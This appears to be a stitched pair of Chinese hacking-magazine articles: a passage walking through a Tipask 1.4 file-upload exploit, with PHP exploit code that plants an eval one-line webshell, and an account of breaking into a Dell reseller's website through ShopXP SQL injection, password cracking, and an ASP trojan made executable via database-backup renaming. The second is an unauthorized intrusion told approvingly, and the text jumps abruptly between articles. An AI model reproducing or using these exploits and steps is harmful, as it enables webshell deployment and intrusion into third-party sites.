

一切来得很直接。

直接上传到 `data/tmp/bigavatar_X.php`，后缀都不用去看了。

## 二、漏洞利用

为了测试这个漏洞，我下载了最新版的 Tipask_v1.4beta_GBK_20111013 的源代码，在虚拟机里的 PHP 环境中搭建好了：Tipask v1.4beta_GBK_20111013。虚拟机里的访问地址为 `http://127.0.0.1/tipask/`，如图1。



图1

存在漏洞程序的环境搭建好了，漏洞怎么利用呢？需要注册用户后才能利用？不用！直接利用 lostwolf 给出的漏洞利用 EXP 就行了。lostwolf 写的 EXP 的代码为：

```php
<?
error_reporting(0);
set_time_limit(0);
ini_set("default_socket_timeout", 5);
define(STDIN, fopen("php://stdin", "r"));
$host = rtrim(ltrim($argv[1], "http://"), "/");
$path = ereg_replace("/{2,}", "/", $argv[2]);
// ...
```

```php
print "\n+----------------------------------------+\n";
print "|              Tipask 1.4 File Upload Vulnerability            |\n";
print "\n";
if ($argc < 3) {
    print "\nUsage: php $argv[0] host path\n";
    print "\nExample: php $argv[0] localhost /\n";
    die();
}

exploit($host, $path);
$url = $host;
$ors = okor($host, $path);
if ($ors) {
    echo "[*] Shell:-> ".$url.$path."data/tmp/bigavatar0.php\n";
} else {
    print "[-] No Bug!\n";
}

function exploit($host, $path) {
    $shellcode='...';
    $file=base64_decode($shellcode);
    $postdata = "\r\n";
    // ...
}
```

```php
name="PHPSESSID"... 
$postdata .= "--xndrotxfbsejfrpdhhivr...";
$postdata .= "Content-Disposition: form-data; name=\"Filedata\"; filename=\"1.php\"\r\n";
$postdata .= "Content-Type:image/jpeg\r\n\r\n";
$postdata .= $file."\r\n";
...
$payload = "POST {$path}/?user/editimg.html HTTP/1.1\r\n";
$payload .= "Host: $host\r\n";
$payload .= "User-Agent: Mozilla/5.0 ... Firefox/4.0.1\r\n";
$payload .= "Accept: text/html,application/xhtml+xml,...\r\n";
$payload .= "Content-type: multipart/form-data; boundary=xndrotx...\r\n";
$payload .= "Content-Length: 290\r\n";
...
$sock=fsockopen($host,80);
if(!$sock){ echo "[x], No response from $host\n"; }
fwrite($sock,$payload);
while(!feof($sock)){
  $exp=fgets($sock,1024);
  return $exp;
}
...
function okor($host,$path){
  $tmp = array();
}
```

```php
$data = "";
$fp = @fsockopen($host,80,$errno,$errstr,60);
@fputs($fp,"GET {$path}/data/tmp/bigavatar0.php HTTP/1.1\r\nHost:$host\r\nConnection: Close\r\n\r\n");
while($fp && !feof($fp)){
  $data .= fread($fp,102400);
}
@fclose($fp);
if (stripos($data,'200') !== false){
  return true;
}else{
  return false;
}
?>
```

把上面代码保存为 **taexp.php**，放到虚拟机中 PHP 安装目录（如 `C:\AppServ\php5`）下。打开命令提示符并切换到该目录，输入 `php taexp.php`，回车后即可看到使用说明。



图2

### EXP的使用格式为：

```bash
php taexp.php host path
```

其中：
- `host` 是安装 Tipask 问答系统网站的域名或 IP 地址；
- `path` 是 Tipask 所在目录（根目录可直接用 `/`）。

示例测试环境 IP 为 `127.0.0.1`，安装目录为 `/tipask/`。

```bash
php taexp.php 127.0.0.1 /tipask/
```

回车后会显示结果，并给出 shell 地址：`127.0.0.1/tipask/data/tmp/bigavatar0.php`。在目标目录中可发现 `bigavatar0.php` 文件，内容类似 `<?php eval($_POST[...]);?>`，为一句话木马。

# 一个人的战争

wolf，如图5。用一句话PHP后门客户端3.0连接 `http://127.0.0.1/tipask/data/tmp/bigavatar0.php`，成功获得shell，如图6。

简单，只要网站存在这个漏洞，可以瞬间拿到shell。漏洞是心灵公布的，EXP是lostwolf写的，我只是出于兴趣在本机做个测试。









至此，漏洞利用完成，可以看到利用EXP拿shell非常方便。

为了方便和我一样想在本机测试这个漏洞的朋友，我把存在漏洞的程序源码 `Tipask_v1.4beta_GBK_20111013.zip` 和漏洞利用EXP打包给大家了。

## 受学黑，厚积耕！

## ——由友情检测DELL卖场所想到的

## 一、写在前面的话

对于我们这类人而言（你懂的），不管是在论坛、QQ还是现实生活中，经常会被问到“如何去入侵网站？”或“我想做黑客吧！”之类的话题。面对绝对真诚和如此虔诚的此类未入门的黑菜菜鸟，我也会像很多人那样用一句“上百度Google吧！”来搪塞。虽然自己也是菜鸟，但这句看似简单的话背后，往往是一个几乎无边无际的答案。

想想自己当初（貌似是2003年）刚接触Hack，到现在《黑客X档案》的绝对忠实读者，从使用X-Scan扫描登录远程3389、Win2000输入法漏洞、DameWare远控到网站注入检测，这一路走来像是在地上捡芝麻一样，所有东西都是一点一点积累起来的。

这样说——“博观而约取，厚积而薄发”（出自《稼说送张琥》），意思是指要经过长时间有准备的积累才能在将来有所作为。建议平时少把时间花在游戏和电影上，多啃几本《X》、多逛技术论坛、多学教程、多尝试，相信人人都能把小芝麻捡成大西瓜。

扯了一大堆，源于今天的一次对成都Dell友情检测经历。绝对没有什么所谓的入侵理由（貌似是“职业”习惯），就是一时兴起，想看一下而已。结果很戏剧性地拿到了WebShell，而且通过Google，N多名牌网站都有哪些，先不告诉！且看下文。

## 二、友情检测过程

受近些年注入检测的思维定式影响，我直接按照惯例在目标网站首页点击“产品展示”，然后再点击进入朋友中意的“XPS 14zd-118”产品介绍（http://www.xxdell.cn/productshopxp.asp?id=608，已做处理，请勿对号入座），将此链接复制粘贴到“啊D注入工具”的“SQL注入检测”中，点击“检测”按钮，结果“啊D”太痛快了，马上就提示“这个连接不能SQL注入！请识别的连接！”，貌似注入就成了死路一条。转而一想：也是哈，堂堂的Dell，哪能这么容易就被你搞啊（谁知很快我就推翻了自己的这个结论）？



图3



图1

对这个URL链接盯了一会儿，思考：难道会没有“漏洞”？注入失败，再试试扫描其开放的端口？还是到 http://www.114best.com/ip/ 进行“同IP站点查询”来尝试旁注呢？正在犹豫间，忽然灵光一现，这链接中的“shopxp”字眼儿不就是传说中的“网上购物系统”么（哥在14年前就过了英语六级的，嘿嘿）？最为关键的是，以前好像看到过“ShopXP漏洞入侵”的教程！赶快翻看自己的笔记本（是真的用笔记录的本子啊），果然找到了曾经有个v8.0的0Day漏洞，那就试一下“大神”的方法——转换代码绕过防注，进行联合查询。将那串长长的漏洞利用代码（`TEXTBOX2.ASP?action=modify&news%69d=122%20and%201=2%20union%20select%201,2,admin%2bpassword,4,5,6,7%20from%20shopxp_admin`）附加在目标网站的域名（http://www.xxdell.cn/）之后，放到360浏览器地址中访问，哈哈，太强了，一下就暴露出了管理员账号及MD5加密密码（如图2）：admin58a7696e059f1bce！在此需要多说一句：由于被暴露出来的账号与MD5密码是连接在一起的，如果账号不是最为常见的“admin”，分开的技巧是从后面截取16位（或32位）MD5密码，那么剩下的前面字符就是管理员账号了。

接着，将这个MD5密码“58a7696e059f1bce”拿到在线网站上进行破解，查询出结果是“cdyckj”。再接着，就应该是到后台登录了，不过后台地址是什么呢？继续在笔记中翻找，系统默认的应该是“admin_shopxp/index.asp”，与域名组合成“http://www.xxdell.cn/admin_shopxp/index.asp”进行访问，“唉”的一声，浏览器提示“无法找到该页”。咦？管理员“竟然”更改了？因为拿不到后台登录地址，即使你有账号和密码也是没什么威胁的。不过，既然管理员设置了这样的一个轻易就被破解的MD5密码，说明他的安全防护意识绝对强不到哪儿去，因此我们就没有理由找不到这个后台登录地址！虽然刚才的“啊D”表现不太给力，但用来找找后台应该还是有几分把握的。将URL链接扔到“管理员入口检测”中，很快就出来了，原来是 http://www.xxdell.cn/admin/login.asp （如图3）。复制粘贴到浏览器中访问，出现了欢迎界面，将账号、密码和验证码分别输入，点击“管理登录”按钮，成功进入了后台管理界面（如图4）。



图4



图2

走到了这一步，其实已足以说明这个Dell的XX分站实在是与它响当当的名气不成正比。先不忙着退出，先大体看一下它的“管理中心”吧。嗯，有“商品管理”，应该可以上传JPG图片文件；也有“数据库备份”，拿WebShell的希望比较大！那就试一下吧，点击左侧菜单下的“商品管理”-“所有商品管理”，仍选择之前看中的“DELL戴尔XPS 14zd-118”商品，下方出现了一个在线编辑器，点击“插入图片”按钮，在弹出的对话框“图片文件：”处点击“浏览”按钮，选择之前已经将 `.asp` 扩展名修改为 `.jpg` 的52KB“马儿”，再点“上传”按钮，成功（如图5）！不用使用“查看源代码”功能，网站直接提示了刚刚上传“图片”木马的相对路径：“uploadpic/20111023175256108.jpg”。将它附加到网站域名之后组合成“http://www.xxdell.cn/uploadpic/20111023175256108.jpg”在浏览器中验证一下，显示出了ASP木马的源代码（如图6），说明的确是上传成功了，只是由于扩展名是JPG，所以现在还无法解析执行。下一步，当然是利用数据库的备份功能啦！

点击“管理中心”的“数据管理”-“数据库备份”，呵呵，管理员并没有作任何限制，直接出现了数据库的备份、压缩及恢复功能项。在最上面的“备份数据库”区域，先将第一项“当前数据库路径：”原来默认的“../shopxp/shopxp.mdb”替换成我们的图片木马相对地址“../uploadpic/20111023175256108.jpg”，第二项“备份数据库目录：”处的“../Databackup”不用作修改，将第三项“备份数据库名称：”原来的“20111051574627971.asa”替换成“help.asa”（这个名字可以任意，随个人习惯而已，但建议使用与系统文件名相似度较高的名字）。OK，点击“备份数据”按钮（如图7）。随即，我们就得到了“操作成功”的提示信息——“备份数据库成功，您备份的数据库路径为help.asa”（如图8）！



图5



图8

